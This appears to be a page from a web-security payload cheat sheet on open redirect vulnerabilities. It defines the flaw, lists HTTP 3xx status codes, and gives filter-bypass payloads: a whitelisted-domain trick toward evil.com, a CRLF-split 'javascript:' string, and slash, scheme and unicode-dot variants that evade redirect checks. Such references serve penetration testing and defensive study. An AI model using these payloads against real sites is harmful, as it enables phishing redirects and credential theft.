 # Open Redirect
Un-validated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

## HTTP Redirection Status Code
HTTP Redirection status codes, those starting with 3, indicate that the client must take additional action to complete the request. Here are some of the most common ones:

* [300 Multiple Choices](https://httpstatuses.com/300) - This indicates that the request has more than one possible response. The client should choose one of them.
* [301 Moved Permanently](https://httpstatuses.com/301) - This means that the resource requested has been permanently moved to the URL given by the Location headers. All future requests should use the new URI.
* [302 Found](https://httpstatuses.com/302) - This response code means that the resource requested has been temporarily moved to the URL given by the Location headers. Unlike 301, it does not mean that the resource has been permanently moved, just that it is temporarily located somewhere else.
* [303 See Other](https://httpstatuses.com/303) - The server sends this response to direct the client to get the requested resource at another URI with a GET request.
* [304 Not Modified](https://httpstatuses.com/304) - This is used for caching purposes. It tells the client that the response has not been modified, so the client can continue to use the same cached version of the response.
* [305 Use Proxy](https://httpstatuses.com/305) - The requested resource must be accessed through a proxy provided in the Location header.
* [307 Temporary Redirect](https://httpstatuses.com/307) - This means that the resource requested has been temporarily moved to the URL given by the Location headers, and future requests should still use the original URI.
* [308 Permanent Redirect](https://httpstatuses.com/308) - This means the resource has been permanently moved to the URL given by the Location headers, and future requests should use the new URI. It is similar to 301 but does not allow the HTTP method to change.

## Filter Bypass
Using a whitelisted domain or keyword
```html
www.whitelisted.com.evil.com redirect to evil.com

```
Using CRLF to bypass "javascript" blacklisted keyword
```html
java%0d%0ascript%0d%0a:alert(0)

```
Using "//" & "////" to bypass "http" blacklisted keyword
```html
//google.com
////google.com

```
Using "https:" to bypass "//" blacklisted keyword
```html
https:google.com

```
Using "//" to bypass "//" blacklisted keyword (Browsers see // as //)
```html
\/\/google.com/
/\/google.com/

```
Using "%E3%80%82" to bypass "." blacklisted character
```html
/?redir=google。com
```